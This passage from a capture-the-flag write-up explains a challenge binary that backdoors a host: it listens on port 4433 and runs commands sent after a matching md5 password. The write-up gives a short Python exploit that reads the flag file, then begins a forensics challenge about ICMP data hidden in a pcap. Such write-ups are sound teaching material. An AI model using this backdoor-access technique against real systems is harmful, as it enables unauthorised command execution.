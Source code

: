 ```
client.send(output)
client.close()
continue
```

So we see that the binary first starts a listener on port 4433 and it then receives some data. It checks if the data received is an md5 hash and then see if the hash matches with the hash of "s4v3_th3_w0rld". If it isn't, it sends back "invalid". If it matches it then it receives one byte of data. It then receives as much data as the byte value of the single byte received before. It checks if the data received starts with "command:" and if it does it runs the text after as a command. So we can just give it a byte like F and then send our command we want to run. Here is my exploit:
```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(1)
s.connect(("192.168.1.128", 4433))
s.send(b"e2162a8692df4e158e6fd33d1467dfe0")
s.send(b"F")
s.send(b"command: cat flag.txt")
print(s.recv(1024))
```
and when we run it we receive:
```
python3 exploit.py
b'CHTB{b4ckd00r5_4r3_d4nG3r0u5}\n'
```
Flag: `CHTB{b4ckd00r5_4r3_d4nG3r0u5}`

# Forensics

##

## Oldest trick in the book

Solved By: payl0ad

This was a forensics challenge that provides a pcap file.
Opening up the file there is a lot of traffic over ipv4 and ipv6.
The most interesting traffic seems to be ICMP between two nodes with data streams that do not look like normal icmp requests.
![](writeupfiles/TheOldestTrickintheBook1.png)

A typical icmp request packet will have data that resembles something like the following:
```
101112131415161718191a1b1c1d1e1f
```
